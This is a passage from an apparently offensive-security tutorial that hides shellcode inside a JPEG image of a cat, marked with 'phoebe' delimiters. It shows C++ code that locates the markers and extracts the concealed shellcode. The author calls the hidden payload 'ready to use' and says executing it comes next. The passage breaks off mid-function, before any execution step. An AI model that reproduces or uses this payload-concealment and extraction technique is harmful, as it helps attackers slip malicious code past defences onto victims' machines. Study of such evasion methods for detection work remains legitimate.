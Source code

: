Go ahead and compile and run the code above.  Now, let's check out the JPEG image we just created.  Here's what the shellcode looks like in ASCII form in the image itself, viewed in Notepad++.  You can see the beginning and ending markers, `phoebe`, as well!  The beginning is the start of our shellcode, and ending marker is the end of our shellcode.  This makes for easy locating of and extracting of our shellcode 😺 

![image](https://github.com/user-attachments/assets/aa2e58b9-ac84-4810-8e1b-bbab07785b4d)

Okay!  So we have the new JPEG image written to disk with shellcode concealed and ready to use.  Let's take a look at it.  Best I can tell, I see a standard JPEG image of a very pretty calico cat.  Nothing out of the ordinary here. 😸

![image](https://github.com/user-attachments/assets/d6ceb6a6-9fc4-43c0-b6e0-0ba085efc8c1)

Next, I'll show you how to extract the shellcode from the image and use it!

***Extracting and Executing the Shellcode from the Image***
-

It's time for the fun part.  Let's put together a function that will locate and extract our shellcode using Phoebe's markers that she helped us setup.   🐱
The function will conclude with writing the extracted shellcode to a `.bin` file.  You could just as easily extract the shellcode from the image and write it directly to memory instead of to disk, but I'm keeping things simple to help you the reader easily digest how this all comes together.  So for now, we will just extract it and write it to `c:\users\public\extracted_shellcode.bin`.  Here's the function code below:

```cpp
#include <iostream>
#include <fstream>
#include <vector>
#include <string>
#include <algorithm>
#include <Windows.h>

const std::string BEGIN_MARKER = "phoebe_b";  // Marker for the beginning of shellcode
const std::string END_MARKER = "phoebe_e";      // Marker for the end of shellcode

// Function to extract the shellcode from the JPEG file
bool ExtractShellcodeFromJPEG(const std::string& jpegPath, const std::string& outputShellcodePath) {
    // Read the JPEG file with embedded shellcode
    std::ifstream jpegFile(jpegPath, std::ios::binary);
    if (!jpegFile) {
        std::cerr << "Failed to open JPEG file!" << std::endl;
        return false;
    }
    std::vector<unsigned char> jpegData((std::istreambuf_iterator<char>(jpegFile)), std::istreambuf_iterator<char>());
    jpegFile.close();

    // Find the markers
    auto beginPos = std::search(jpegData.begin(), jpegData.end(), BEGIN_MARKER.begin(), BEGIN_MARKER.end());
    auto endPos = std::search(jpegData.begin(), jpegData.end(), END_MARKER.begin(), END_MARKER.end());

    if (beginPos == jpegData.end() || endPos == jpegData.end()) {
        std::cerr << "Markers not found in the JPEG file!" << std::endl;
        return false;
    }

    // Extract the shellcode between the markers
    beginPos += BEGIN_MARKER.size();  // Move past the BEGIN_MARKER
    std::vector<unsigned char> shellcodeData(beginPos, endPos);

```